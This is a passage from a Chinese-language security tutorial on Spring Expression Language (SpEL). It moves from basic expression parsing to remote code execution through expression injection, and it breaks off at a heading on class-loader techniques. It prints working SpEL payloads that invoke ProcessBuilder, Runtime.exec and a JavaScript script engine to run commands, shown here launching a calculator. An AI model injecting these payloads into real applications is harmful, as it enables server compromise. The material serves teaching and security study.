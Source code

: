 ### SpEL表达式的基本使用

#### 简介

* Spring表达式语言（简称 **SpEL**，全称**Spring Expression Language**）是一种功能强大的表达式语言，支持在运行时查询和操作对象图。
* SpEL是Spring产品组合中表达评估的基础，但它并不直接与Spring绑定,可以独立使用。

#### Spel实现RCE

**基本使用：**

```java
ExpressionParser parser = new SpelExpressionParser();//创建解析器
Expression exp = parser.parseExpression("'Hello World'.concat('!')");//解析表达式
System.out.println( exp.getValue() );//取值，Hello World！
```



**自定义注册加载变量：**

```java
public class Spel {
    public String name = "何止";
    public static void main(String[] args) {
        Spel user = new Spel();
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("user",user);//通过StandardEvaluationContext注册自定义变量
        SpelExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression expression = parser.parseExpression("#user.name");//解析表达式
        System.out.println( expression.getValue(context).toString() );//取值,输出何止
    }
}
```



**调用命令执行方法：**

```java
String cmdStr = "new java.lang.ProcessBuilder(\"calc\").start()"; // java.lang下的类可以省略包名 
ExpressionParser parser = new SpelExpressionParser();//创建解析器
Expression exp = parser.parseExpression(cmdStr);//解析表达式
System.out.println( exp.getValue() );//弹出计算器
```

```java
//  SpEL、OGNL、MVEL等表达式均设计为在访问静态类时，使用T()显示表明这是一个静态类
String cmdStr = "T(java.lang.Runtime).getRuntime().exec(\"open /System/Applications/Calculator.app\")";
```

```java
String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";  // 利用JavaScript引擎，这里JavaScript可替换为nashorn
```

**通过类加载器加载class实现RCE：**
